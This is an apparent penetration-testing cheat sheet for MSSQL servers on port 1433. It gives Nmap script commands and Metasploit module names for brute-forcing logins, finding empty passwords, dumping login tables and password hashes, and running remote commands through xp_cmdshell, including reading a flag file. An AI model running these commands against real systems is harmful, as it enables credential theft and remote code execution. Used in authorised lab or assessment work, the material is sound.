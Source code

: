 # Enumeration: MSSQL
> MSSQL is Microsoft's version of an SQL database.

- Default MSSQL Port: `1433`

## Contents
- [Nmap Scripts](#nmap-scripts)
  - [ms-sql-info](#ms-sql-info)
  - [ms-sql-ntlm-info](#ms-sql-ntlm-info)
  - [ms-sql-brute](#ms-sql-brute)
  - [ms-sql-empty-password](#ms-sql-empty-password)
  - [ms-sql-query](#ms-sql-query)
  - [ms-sql-dump-hashes](#ms-sql-dump-hashes)
  - [ms-sql-xp-cmdshell](#ms-sql-xp-cmdshell)
- [MetaSploit](#metasploit)

## Nmap Scripts

### ms-sql-info
> This gives you a little more info than a standard nmap version scan (e.g., patches applied: true|false).
```
nmap -p 1433 --script ms-sql-info [target ip]
```

### ms-sql-ntlm-info
> This gives us the Target_Name and other similar info
```
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 [target ip]
```

### ms-sql-brute
> This gives us some login creds (usernames/pwds)
```
nmap [target ip] -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt
```

### ms-sql-empty-password
> Check for usernames with no password
```
nmap [target ip] -p 1433 --script ms-sql-empty-password
```

### ms-sql-query
```
nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" [target ip] -oN output.txt
```
- Note: The query statement is the example given in the Nmap [NSE documentation](https://nmap.org/nsedoc/scripts/ms-sql-query.html).
  - You could try [syslogins](https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-syslogins-transact-sql?view=sql-server-ver16) or [sysusers](https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysusers-transact-sql?view=sql-server-ver16) or etc.
- Run a query using some of the info we've found so far.
- The output is a db dump, so it looks like a mess on your screen. That's why we did the -oN  (output Normal) to a text file.
- Open that text file in a text editor with monospace font
- Lots of goodies there about system and user logins. Enumerate. 

### ms-sql-dump-hashes
> This is good info to enumerate (maybe "pass the hash" later on)
```
nmap [target ip] -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
```

### ms-sql-xp-cmdshell
> Try to run some actual code on the target machine via their mssql instance. If you get a response to the command, you know you can execute code on the remote system.
```
nmap [target ip] -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"
```
> Read a file on the remote system
```
nmap [target ip] -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
```

## MetaSploit

Modules to Enumerate MSSQL:
- `mssql_enum` : enumerate MSSQL configuration
- `mssql_enum_sql_logins` : enumerate all MSSQL logins
- `mssql_login` : discover valid users and their passwords
- `mssql_exec` : execute a command on the target machine
- `mssql_enum_domain_accounts` : enumerate all available system users

